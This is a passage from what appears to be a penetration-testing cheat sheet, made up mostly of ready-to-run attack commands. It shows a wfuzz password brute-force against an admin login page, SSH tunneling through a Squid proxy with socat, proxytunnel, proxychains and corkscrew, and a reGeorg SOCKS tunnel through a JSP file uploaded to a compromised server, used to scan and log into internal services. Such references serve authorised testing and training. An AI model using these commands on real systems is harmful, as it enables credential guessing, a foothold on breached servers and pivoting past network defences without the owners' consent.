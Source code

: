 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```


<a name="tunneling"></a><h2>Tunneling</h2>

<a name="sshovertcp"></a><h3>SSH over HTTP (Squid)</h3>

<b> socat </b>

<pre>socat TCP-L:9999,fork,reuseaddr PROXY:192.168.1.41:127.0.0.1:22,proxyport=3128

ssh john@127.0.0.1 -p 9999</pre>


<b>proxytunnel </b>

<pre>proxytunnel -p 192.168.1.41:3128 -d 127.0.0.1:22 -a 5555

ssh john@127.0.0.1 -p 5555</pre>

<b>proxychains </b>

<pre>http 192.168.1.41 3128

proxychains ssh john@127.0.0.1</pre>

![proxychains](https://user-images.githubusercontent.com/7115563/33822522-1e15dbee-de58-11e7-9953-3da8ff684cfc.png)


<b>corkscrew </b>

<pre>ssh john@192.168.1.41 -t /bin/sh</pre>

![cork](https://user-images.githubusercontent.com/7115563/33822672-b92a51f0-de58-11e7-9936-06056b7903b8.png)


<a name="tcpoverhttp"></a><h3> TCP over HTTP </h3>

For this technique, it is necessary to be able to upload a file to a webserver.

<a name="regeorg"><b> 1. reGeorg </b>
  
  File upload to the server correct
  
  ![regeorge2](https://user-images.githubusercontent.com/7115563/33883424-028c9f0e-df3c-11e7-9559-b35667ae76db.png)
  
  Tunnel creation
  
  `python reGeorgSocksProxy.py -p 5555 -u "http://<ip>/admin/uploads/reGeorg.jsp"`
  
  Proxychains config
  
  ![regeorge1](https://user-images.githubusercontent.com/7115563/33883419-fcc15416-df3b-11e7-89a9-499ffc1de9cf.png)
  
  <pre>
proxychains nmap -F -sT 127.0.0.1
proxychains mysql -u root -p -h 127.0.0.1
proxychains ssh localhost
</pre>

```